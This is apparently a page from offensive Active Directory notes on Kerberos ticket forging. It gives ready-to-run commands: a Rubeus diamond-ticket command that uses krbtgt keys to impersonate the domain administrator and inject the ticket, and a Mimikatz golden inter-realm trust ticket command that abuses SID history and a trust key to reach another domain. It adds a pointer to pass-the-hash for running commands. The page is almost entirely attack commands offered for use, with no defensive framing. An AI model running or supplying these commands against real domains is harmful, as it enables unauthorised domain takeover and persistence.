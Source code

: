 # Ticket Forging

### Diamon ticket forging

Use Rubeus and the krbtgt credentials to create a Diamond Ticket

{% code overflow="wrap" %}
```powershell
C:\AD\Tools\Rubeus.exe diamond /krbkey:<krbtgt aes256> /tgtdeleg /enctype:aes /ticketuser:administrator /domain:<DOMAIN> /dc:<DC DOMAIN> /ticketuserid:500 /groups:512 /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
{% endcode %}

and now you can [pass-the-hash.md](../active-directory/lateral-movement/pass-the/pass-the-hash.md "mention") to execute commands

### Inter-Realm Ticket

{% code overflow="wrap" %}
```powershell
kerberos::golden /user:Administrator /domain:<CURRENT DOMAIN> /sid:<CURRENT DOMAIN SID> /sids:<SID TO EXTRACT> /rc4:<TRUST KEY> /service:krbtgt /target:<TARGET DOMAIN> /ticket:./trust_tkt.kirbi" 
```
{% endcode %}

<figure><img src="../../.gitbook/assets/Pasted image 20231113155053.png" alt=""><figcaption></figcaption></figure>

